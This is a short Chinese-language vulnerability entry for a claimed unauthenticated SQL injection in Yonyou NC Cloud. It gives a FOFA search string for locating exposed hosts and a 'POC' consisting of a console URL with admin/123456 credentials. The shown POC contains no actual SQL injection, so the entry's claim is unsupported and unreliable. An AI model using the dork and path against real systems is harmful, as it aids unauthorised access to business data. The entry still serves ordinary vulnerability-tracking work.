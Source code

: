 ## 用友NC Cloud Sql注入漏洞

## 漏洞描述

攻击者构造恶意SQL语句未授权获取后台敏感数据。

## 漏洞影响

> NC Cloud

## FOFA

> "NCCloud"

## POC

```
/fs/console?username=admin&password=123456
```

![1](/resource/用友NC-Cloud-Sql注入/1.png)

![2](/resource/用友NC-Cloud-Sql注入/2.png)
